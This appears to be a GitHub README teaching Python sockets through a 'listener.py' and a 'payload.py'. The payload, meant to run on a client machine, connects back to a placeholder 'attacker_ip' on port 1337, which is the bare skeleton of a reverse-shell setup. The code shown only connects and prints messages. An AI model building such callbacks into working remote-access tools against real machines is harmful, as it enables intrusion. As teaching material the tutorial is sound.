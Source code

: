 <h2 align="center">Server Side Programming</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

## If there will be a communication to be accepted
## use accept method to listener, then get the connection and address
connection, address = listener.accept()
print(f"Connected to {address}")
```
---
> [payload.py](payload.py)
```python
## payload to be excuted in the client side
import socket

## create the object of socket module
## instantiate payload object with the same constant from listener
payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

## call the connect method on payload
## connect method will take the tuple with 2 arguments same as from listener
payload.connect(("attacker_ip", 1337))

print("Connected")
```